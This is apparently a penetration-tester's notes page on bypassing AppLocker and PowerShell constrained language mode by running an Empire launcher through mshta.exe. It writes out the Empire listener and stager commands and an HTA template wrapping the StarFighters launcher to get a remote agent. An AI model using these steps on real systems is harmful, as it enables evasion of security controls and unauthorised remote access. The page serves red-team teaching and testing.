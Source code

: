 # Bypassing Applocker and Powershell contstrained language mode

There will be environments where Applocker severely restricts which commands can be run on a system. That means no binaries that are not signed by Microsoft. Usually this means an environment where you basically have access to certain whitelisted applications like Internet explorer and notepad. This means getting a shell will be hard.

There could also be the restriction of Powershell constrained language mode too, which prevents you from running anything Powershell related. That means no Powershell scripts can be executed either.

However, both these features can be bypassed using a technique known as abusing mshta.exe, which is a binary used for executing html applications and it's typically installed along Internet Explorer.

A machine with some level of user access is of course a prequisite for this to work. The goal of this is to get a shell through an Empire agent. The only caveat of this technique is that it requires .NET framework 3.5 feature to be enabled to work .NET framework 3.5 feature is something that is not enabled by default in Windows 10 on a clean install.

We want to abuse the fact that we can launch mshta files, which is basically

Set up an Empire listener and generate a base64 encoded launcher. Copy the launcher when done

```text
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

Now use StarFighter whic is JavaScript and VBScript Based Empire Launcher, which runs within their own embedded PowerShell Host. This means you don't have to rely on powershell.exe from the target, which you can't execute because of the restrictions set.

[https://github.com/Cn33liz/StarFighters](https://github.com/Cn33liz/StarFighters)

Paste the Empire launcher into the vbs or js where indicated. Name the file with .hta as extension.

```text
<body onclick="if(confirm('Close? (onclick)')){self.close();}">
<h1>Test Page</h1>
<script language="VBScript">
StarVighter.vbs contents go here with copypasted powershell
</script>
</body>
```

Then get the file on the box, right click on it, select Open with-&gt; Microsoft \(R\) HTML Application host and it should immediately launch and you should get an agent in Empire.

![](../../.gitbook/assets/import.png)

**Useful links** [https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/](https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/) [https://github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList) [http://cn33liz.blogspot.no/2016/05/bypassing-amsi-using-powershell-5-dll.html](http://cn33liz.blogspot.no/2016/05/bypassing-amsi-using-powershell-5-dll.html)


